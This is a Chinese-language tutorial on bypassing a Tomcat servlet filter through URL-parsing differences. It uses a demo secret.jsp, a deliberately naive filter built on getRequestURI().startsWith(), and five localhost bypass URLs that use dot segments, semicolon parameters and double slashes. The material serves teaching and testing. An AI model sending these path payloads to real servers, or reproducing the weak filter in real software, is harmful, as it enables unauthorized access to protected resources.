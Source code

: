 ```yaml
---
title: Tomcat URL 解析差异性攻击利用
id: zhfly3191
---
```


## Tomcat URL 解析差异性攻击利用

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>Secret</title>
</head>
<body>
username: mi1k7ea<br>
password: 123456<br>
address: china<br>
phone: 13666666666<br>
</body>
</html> 
```

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：

```
package filter;

import javax.servlet.*;

import javax.servlet.http.*;

import java.io.IOException;

public class testFilter implements Filter {

@Override

public void init(FilterConfig filterConfig) throws ServletException {

```
}

@Override
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
    HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
    HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

    String url = httpServletRequest.getRequestURI();

    if (url.startsWith("/urltest/info")) {
        httpServletResponse.getWriter().write("No Permission.");
        return;
    }

    filterChain.doFilter(servletRequest, servletResponse);
}

@Override
public void destroy() {

} 
``` `}` 
```

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <filter>
        <filter-name>testFilter</filter-name>
        <filter-class>filter.testFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>testFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
</web-app> 
```

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

![image](../img/6bbe19f67f4731ef8d683a2b8fb26635.png)

根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：

```
http://localhost:8080/urltest/./info/secret.jsp
http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
http://localhost:8080//urltest/info/secret.jsp 
```

![image](../img/9104ca96ff76878da56a5ed6b4a80182.png)

整个的过程大致如此，就是利用解析的差异性来绕过认证